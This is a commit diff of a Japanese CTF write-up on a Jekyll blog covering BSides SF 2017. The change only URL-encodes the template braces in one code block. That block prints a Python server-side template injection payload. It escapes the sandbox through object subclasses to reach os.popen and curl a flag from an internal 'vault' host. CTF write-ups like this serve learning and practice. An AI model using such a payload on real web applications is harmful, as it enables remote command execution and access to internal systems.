

Before and after one commit to st98/diary, a Jekyll site: the page built from _posts/2017-02-14-bsides-sf-ctf.md, in a window 1280 px wide and 900 px high, scrolled down 8227 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
テンプレートでやらかしてたので修正

````diff
--- a/_posts/2017-02-14-bsides-sf-ctf.md
+++ b/_posts/2017-02-14-bsides-sf-ctf.md
@@ -274,7 +274,7 @@
 過去問を探していると [A python's escape from PlaidCTF jail · @wapiflapi](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) という記事を見つけました。これをもとに
 
 ```
-http://zumbo-8ac445b1.ctf.bsidessf.net/{{ ().__class__.__base__.__subclasses__()[59]().__repr__.im_func.func_globals['linecache'].os.popen('curl http://vault:8080/flag').read() }}
+http://zumbo-8ac445b1.ctf.bsidessf.net/%7b%7b ().__class__.__base__.__subclasses__()[59]().__repr__.im_func.func_globals['linecache'].os.popen('curl http://vault:8080/flag').read() %7d%7d
 ```
 
 でフラグが出てきました。
````
